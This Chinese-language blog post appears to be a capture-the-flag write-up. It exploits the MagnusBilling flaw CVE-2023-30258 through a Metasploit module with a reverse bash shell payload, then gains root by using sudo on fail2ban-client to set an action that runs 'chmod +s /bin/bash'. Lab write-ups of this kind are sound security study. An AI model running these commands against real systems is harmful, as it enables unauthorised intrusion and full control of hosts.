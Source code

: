 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)

#### 提权原理
如果我们发现 Fail2ban 正在目标主机上运行，则必须满足以下条件才能提升权限：

1. 配置文件（**iptables-multiport.conf** 或 **iptables.conf** – 取决于版本）需要以某种方式可写。通常，这是用户/组权限、目录/文件权限或两者的某种组合的结果。
2. 无论如何，我们的当前用户需要能够重新启动服务，才能使对配置文件所做的更改生效。


`/etc/fail2ban/jail.local`，有这样的参数

|     |                                                                                                                                                                                                                    |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|     | `[asterisk-iptables]`<br>enabled  = true<br>filter   = asterisk<br>action   = iptables-allports`[name=ASTERISK, port=all, protocol=all]`<br>logpath  = /var/log/asterisk/messages<br>maxretry = 5<br>bantime = 600 |
|     |                                                                                                                                                                                                                    |

```
sudo /usr/bin/fail2ban-client status
```
查看当前的监狱
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。

关键命令
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
